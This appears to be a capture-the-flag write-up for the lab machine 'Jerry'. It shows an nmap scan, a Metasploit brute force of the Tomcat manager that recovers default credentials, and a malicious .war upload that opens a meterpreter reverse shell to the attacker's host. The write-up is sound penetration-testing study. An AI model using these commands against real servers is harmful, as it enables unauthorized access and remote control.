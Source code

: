 # Jerry

---

## Setup

Spawned in the machine as always, got the IP and stored it in an environment variable in case I lose it -as always-

```shell
└─$ export IP=10.10.10.95
└─$ echo $IP
10.10.10.95
```

and to make sure everything is working alright and the target machine is up and running, we can use `ping` to make sure it's alive.

```shell
└─$ ping $IP
PING 10.10.10.95 (10.10.10.95) 56(84) bytes of data.
64 bytes from 10.10.10.95: icmp_seq=1 ttl=63 time=69.3 ms
64 bytes from 10.10.10.95: icmp_seq=2 ttl=63 time=68.1 ms
64 bytes from 10.10.10.95: icmp_seq=3 ttl=63 time=67.9 ms
64 bytes from 10.10.10.95: icmp_seq=4 ttl=63 time=70.4 ms
```

---

## Enumeration

First step after spawning in the target machine and connected to the VPN, I start an [`nmap`](https://nmap.org) scan to determine open ports and running services and may be vulnerable using the following flags:

`-sV`: Determine running services/versions on open ports
`-sC`: Run default scripts
`-p-`: Scan all possible ports
`-v`: Verbose output for more information about the scan
`-oN`: Write the output of the scan into a file

```shell
$ nmap -sV -sC -p- -v -oN scan.nmap $IP
```

the scan result:

```shell
Nmap scan report for 10.10.10.95
Host is up (0.079s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-title: Apache Tomcat/7.0.88
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache-Coyote/1.1
```

---

## Tomcat Exploitation

I first navigated to `http://10.10.10.95:8080` to see the webpage and I was greeted with the default home page of a tomcat server, so I navigated to `/manager` and was prompted with a login form, I tried `admin:admin` and It logged me in but I still didn't have permissions to get to `/manager/html`, so I used Metasploit to bruteforce most known and common username and password combinations as follows:

```shell
msf6 > use auxiliary/scanner/http/tomcat_mgr_login
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set rhosts 10.10.10.95
rhosts => 10.10.10.95
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set rport 8080
rport => 8080
msf6 auxiliary(scanner/http/tomcat_mgr_login) > run
```

it kept doing its magic until it hit `tomcat:s3cret`!

Then after reading online for some time I found that I can just use another Metasploit module to execute a poisoned `.war` file on the server and gain a reverse shell:

```shell
msf6 > use exploit/multi/http/tomcat_mgr_upload
[*] No payload configured, defaulting to java/meterpreter/reverse_tcp
msf6 exploit(multi/http/tomcat_mgr_upload) > set httppassword tomcat
httppassword => tomcat
msf6 exploit(multi/http/tomcat_mgr_upload) > set httpusername tomcat
httpusername => tomcat
msf6 exploit(multi/http/tomcat_mgr_upload) > set httppassword s3cret
httppassword => s3cret
msf6 exploit(multi/http/tomcat_mgr_upload) > set rhosts 10.10.10.95
rhosts => 10.10.10.95
msf6 exploit(multi/http/tomcat_mgr_upload) > set rport 8080
rport => 8080
msf6 exploit(multi/http/tomcat_mgr_upload) > set lhost 10.10.16.4
lhost => 10.10.16.4
msf6 exploit(multi/http/tomcat_mgr_upload) > run
```

And that's it, I got a session open and I navigated through the target machine to `C:\Administrator\Desktop` and both flags were for the price of one!

---

## Tomcat Exploitation Without Metasploit

<---- TODO ---->